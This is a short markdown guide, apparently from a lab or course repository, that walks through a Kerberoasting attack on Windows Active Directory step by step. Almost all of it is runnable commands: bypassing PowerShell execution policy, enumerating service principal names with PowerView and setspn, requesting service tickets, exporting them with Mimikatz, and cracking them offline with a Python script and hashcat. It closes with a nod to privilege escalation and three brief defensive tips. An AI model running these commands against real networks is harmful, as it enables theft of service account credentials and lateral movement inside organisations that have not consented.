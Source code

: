 

Kerberoasting is a post-exploitation attack used to extract service account credentials from a Windows Active Directory environment. Below are the steps involved in performing a Kerberoasting attack along with the necessary commands.

---

## **1. Bypass PowerShell Execution Policy**

Before running scripts, bypass PowerShell's execution policy:

```powershell
powershell -ep bypass
```

---

## **2. Import PowerView Module**

Load PowerView, a tool for Active Directory enumeration:

```powershell
. .\PowerView.ps1
```

---

## **3. Identify Service Accounts with SPNs**

Find user accounts with associated Service Principal Names (SPNs):

```powershell
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```

---

## **4. Enumerate SPNs in the Domain**

List all registered SPNs in the domain:

```powershell
setspn -T research -Q */*
```

---

## **5. Check for Existing Kerberos Tickets**

To list the current Kerberos tickets in use:

```powershell
klist
```

---

## **6. Request a Ticket Granting Service (TGS) Ticket**

Request a Kerberos service ticket for a specific service account:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/research.SECURITY.local:1434"
```

---

## **7. Extract Kerberos Tickets using Mimikatz**

Use Mimikatz to export the tickets for offline cracking:

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

---

## **8. Crack the Extracted Ticket**

### **Using a Python Script**

```powershell
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi
```

### **Using Hashcat for Faster Cracking**

```bash
hashcat -m 13100 <ticket-hash-file> <wordlist>
```

- `-m 13100` specifies Kerberos 5 TGS-REP as the hash type.

---

## **Conclusion**

Kerberoasting is an effective attack to extract service account credentials. After obtaining the password, you can escalate privileges or move laterally within the network.

**Defensive Measures:**

- Enforce strong passwords for service accounts.
- Implement monitoring for abnormal Kerberos requests.
- Limit service accounts’ privileges to minimize the impact of compromise.
